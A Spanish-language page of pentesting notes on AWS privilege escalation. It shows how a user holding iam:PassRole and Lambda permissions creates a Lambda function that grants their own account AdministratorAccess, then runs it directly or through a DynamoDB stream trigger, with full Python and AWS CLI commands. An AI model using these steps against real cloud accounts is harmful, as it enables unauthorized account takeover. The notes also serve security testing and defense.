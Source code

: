 # PassExistingRoleToNewLambdaThenInvoke
Un atacante puede escalar privilegios pasando un rol existente de IAM a una nueva función lambda destinada a realizar acciones de su elección.

#### Permisos requeridos

- iam:PassRole
- lambda:CreateFunction
- lambda:InvokeFunction

### Ejecución

1) Creamos una función lambda que asigne a un usuario sobre el que tengamos control privilegios de amdmin.


        import boto3
        def lambda_handler(event, context):
          client = boto3.client('iam')
          response = client.attach_user_policy(UserName='<user>', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
          return response

2) Comprimimos el archivo
3) Creamos la lambda

        aws lambda create-function --function-name privesc --runtime python3.6 --role <rol_privilegiado> --handler code.lambda_handler --zip-file fileb://function.zip --region us-east-2 --profile <profile>

4) Invocamos la lambda

        aws lambda invoke --function-name privesc output.txt --region us-east-2 --profile <profile>


---

# PassRoleToNewLambdaThenTriggerWithNewDynamo

A diferencia del caso anterior, un usuario que pueda crear una lambda pero no invocarla, puede aprovechar permisos para mapear la lambda a un evento en dynamodb para que se ejecute la lambda.

#### Permisos requeridos

- iam:PassRole
- lambda:CreateFunction
- lambda:CreateEventSourceMapping


### Ejecución:

1) Creamos la lambda

        import boto3
        def lambda_handler(event, context):
          client = boto3.client('iam')
          response = client.attach_user_policy(UserName='<user>', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
          return response

2) Comprimimos la función
3) subimos la lambda

        aws lambda create-function --function-name privesc --runtime python3.6 --role <rol_privilegiado> --handler code.lambda_handler --zip-file fileb://function.zip --region us-east-2 --profile <profile>

4) Mapeamos la lambda con un evento específico.

   - Tomamos el arn del flujo más reciente de la dynamodb. Este se encuentra en Dynamodb > tablas > <tabla> > exportaciones y flujos.
   - Creamos el mapeo
  
          aws lambda create-event-source-mapping --function-name privesc --event-source-arn <arn_flujo> --enabled --starting-position LATEST --region us-east-1 --profile <profile>
  
5) Si tenemos un usuario que puede cargar datos en la dynamodb (dynamodb:PutItem) podemos hacer un registro en la DB o esperamos que otro usuario lo realice.



# Continuara...
